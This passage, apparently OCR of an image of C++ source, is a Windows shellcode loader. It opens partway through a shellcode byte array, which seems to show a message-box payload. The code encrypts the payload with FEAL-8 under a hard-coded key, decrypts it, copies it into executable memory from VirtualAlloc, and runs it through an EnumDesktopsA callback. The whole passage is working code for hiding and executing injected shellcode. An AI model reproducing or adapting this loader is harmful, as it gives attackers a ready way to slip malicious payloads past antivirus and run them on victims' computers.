 ```cpp
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % 
  BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```
